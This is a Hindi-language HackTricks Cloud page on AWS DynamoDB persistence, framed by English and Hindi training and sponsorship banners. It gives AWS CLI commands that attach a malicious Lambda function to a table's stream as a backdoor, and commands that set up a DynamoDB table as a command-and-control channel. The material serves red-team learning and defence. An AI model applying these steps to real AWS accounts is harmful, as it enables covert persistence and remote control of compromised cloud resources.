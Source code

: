 # AWS - DynamoDB Persistence

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

### DynamoDB

अधिक जानकारी के लिए पहुँचें:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Lambda बैकडोर के साथ DynamoDB ट्रिगर्स

DynamoDB ट्रिगर्स का उपयोग करके, एक हमलावर एक **गुप्त बैकडोर** बना सकता है, एक तालिका के साथ एक दुर्भावनापूर्ण Lambda फ़ंक्शन को जोड़कर। Lambda फ़ंक्शन तब सक्रिय हो सकता है जब कोई आइटम जोड़ा, संशोधित या हटाया जाता है, जिससे हमलावर को AWS खाते के भीतर मनमाना कोड निष्पादित करने की अनुमति मिलती है।

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

स्थायीता बनाए रखने के लिए, हमलावर DynamoDB तालिका में आइटम बना या संशोधित कर सकता है, जो दुर्भावनापूर्ण Lambda फ़ंक्शन को ट्रिगर करेगा। इससे हमलावर को Lambda फ़ंक्शन के साथ सीधे इंटरैक्शन के बिना AWS खाते के भीतर कोड निष्पादित करने की अनुमति मिलती है।

### DynamoDB को C2 चैनल के रूप में

एक हमलावर DynamoDB तालिका का **कमांड और नियंत्रण (C2) चैनल** के रूप में उपयोग कर सकता है, आइटम बनाकर जिसमें कमांड होते हैं और समझौता किए गए उदाहरणों या Lambda फ़ंक्शनों का उपयोग करके इन कमांड को लाने और निष्पादित करने के लिए।
```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```
समझौता किए गए उदाहरण या Lambda फ़ंक्शन समय-समय पर C2 तालिका में नए आदेशों की जांच कर सकते हैं, उन्हें निष्पादित कर सकते हैं, और वैकल्पिक रूप से परिणामों को तालिका में वापस रिपोर्ट कर सकते हैं। यह हमलावर को समझौता किए गए संसाधनों पर निरंतरता और नियंत्रण बनाए रखने की अनुमति देता है।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
